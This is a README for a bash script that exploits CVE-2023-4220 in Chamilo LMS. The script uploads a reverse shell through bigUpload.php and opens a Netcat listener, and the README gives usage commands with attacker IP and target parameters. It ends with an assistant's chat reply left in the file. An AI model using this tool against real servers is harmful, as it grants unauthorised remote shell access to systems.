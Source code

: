 # Chamilo LMS CVE-2023-4220 Exploit

## Overview

This script exploits a Remote Code Execution (RCE) vulnerability in **Chamilo LMS** versions **≤ v1.11.24**. The vulnerability (CVE-2023-4220) exists due to unrestricted file upload functionality in the **bigUpload.php** feature of Chamilo LMS, which allows attackers to upload arbitrary files (such as web shells) and execute them, leading to full remote code execution on the server.

This script has been enhanced by **Divine Clown** to streamline the exploitation process, automatically generating a reverse shell file, uploading it to the target, and launching a listener to give the attacker direct access to the shell.

---

## CVE Details

- **CVE ID**: [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220)
- **Affected Software**: Chamilo LMS ≤ v1.11.24
- **Vulnerability Type**: Remote Code Execution (RCE)
- **Attack Vector**: Unrestricted file upload in `/main/inc/lib/javascript/bigupload/inc/bigUpload.php`

---

## Features

- Automatically downloads a reverse shell from **revshells.com** based on the attacker's IP and port.
- Uploads the reverse shell using the vulnerable `bigUpload.php` endpoint.
- Silently triggers the shell and opens a Netcat listener for direct access.

### Enhancement by Divine Clown:
- All intermediate steps (downloading shell, uploading, etc.) are hidden, showing only the resulting reverse shell for streamlined use.

---

## Usage

```bash
./CVE-2023-4220.sh -i <attacker_ip> -p <port> -h <host_link>
```

### Parameters:
- `-i <attacker_ip>`: The attacker's IP address for the reverse shell.
- `-p <port>`: The port where the Netcat listener will be started.
- `-h <host_link>`: The full URL of the vulnerable Chamilo LMS instance.

### Example:

```bash
./CVE-2023-4220.sh -i 10.10.14.15 -p 9001 -h http://target-site.com
```

---

## Prerequisites

- **Netcat** installed on your machine.
- Ensure the target Chamilo LMS version is vulnerable (≤ v1.11.24).
- Proper permissions to perform penetration testing or exploitation.

---

## Technical Breakdown

1. The script downloads a reverse shell from **revshells.com**, dynamically generating it based on the attacker's IP and port.
2. The reverse shell is uploaded to the vulnerable **bigUpload.php** endpoint.
3. The uploaded file is executed by accessing its URL on the server.
4. A Netcat listener is started, and once the file is triggered, a reverse shell connection is established, giving the attacker command-line access.

---

## Legal Disclaimer

This tool is intended solely for educational purposes and testing environments where you have explicit permission to exploit vulnerabilities. **Unauthorized access to systems is illegal** and may result in criminal charges. The authors will not be held responsible for any misuse or damage caused by this script.

---

## Credits

- **Original Exploit Author**: Ziad Sakr [@Ziad-Sakr](https://twitter.com/ZiadSakr)
- **Enhancements and Refinements**: ME(Divine Clown)

---

Feel free to modify the README further if you want to include any additional information or formatting! Let me know if you need anything else.